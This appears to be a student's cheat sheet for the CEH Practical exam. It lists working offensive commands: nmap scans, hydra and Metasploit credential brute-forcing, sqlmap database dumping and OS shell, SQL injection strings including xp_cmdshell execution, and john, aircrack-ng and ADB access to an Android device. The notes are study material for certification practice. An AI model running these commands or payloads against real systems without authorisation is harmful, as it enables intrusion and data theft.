# Scanning

## Netdiscover
```console
netdiscover -r x.x.x.1/24
```
## Nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# Credentials SMB Cracking

## Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
=== Bruteforce SSH, TELNET, FTP  ===

hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet

hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

•	If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

	
•	Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


==== Vulnerability Scanning ====

1) Nessus

Nessus runs on https[:]//localhost[:]8834

2) nikto -h 

===== Hidden text ====

1) snow -C -p "magic" readme2.txt

2) steghide 

==== WIRESHARK ====



To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21


https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

====== SQL ======

SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


=== PASSWORD CRACKING ===

john --single --format=md5crypt crack.txt

=== WIFI ENCYRPTION CRACKING ===

aircrack-ng -w rockyou.txt capture-01.cap


=== VERACRYPT ===


=== CUSTOM WORDLIST ===

=== MOBILE ===

ADB
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

